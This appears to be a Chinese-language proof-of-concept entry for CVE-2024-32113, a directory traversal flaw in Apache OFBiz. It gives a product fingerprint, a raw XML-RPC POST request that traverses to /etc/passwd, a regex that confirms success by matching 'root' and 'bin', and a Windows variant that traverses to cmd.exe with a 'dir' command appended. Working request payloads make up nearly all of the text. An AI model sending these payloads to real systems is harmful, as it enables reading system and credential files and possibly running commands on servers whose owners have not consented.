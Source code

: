 ﻿# Apache OFBiz 目录遍历漏洞 

> 更新时间：2024-05-20

> 漏洞编号：CVE-2024-32113

> 漏洞说明：

> 漏洞特征：product.name="OFBiz"

> 验证脚本：HTTP

```
POST /webtools/control/xmlrpc HTTP/1.1
Content-Type: text/xml

<?xml version="1.0"?>
<methodCall>
  <methodName>example.createBlogPost</methodName>
  <params>
    <param>
      <value><string>../../../../../../etc/passwd</string></value>
    </param>
  </params>
</methodCall>
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：Apache OFBiz 目录遍历漏洞

```
Windows POC:
POST /webtools/control/xmlrpc HTTP/1.1
Content-Type: text/xml

<?xml version="1.0"?>
<methodCall>
  <methodName>performCommand</methodName>
  <params>
    <param>
      <value><string>../../../../../../windows/system32/cmd.exe?/c+dir+c:\</string></value>
    </param>
  </params>
</methodCall>
```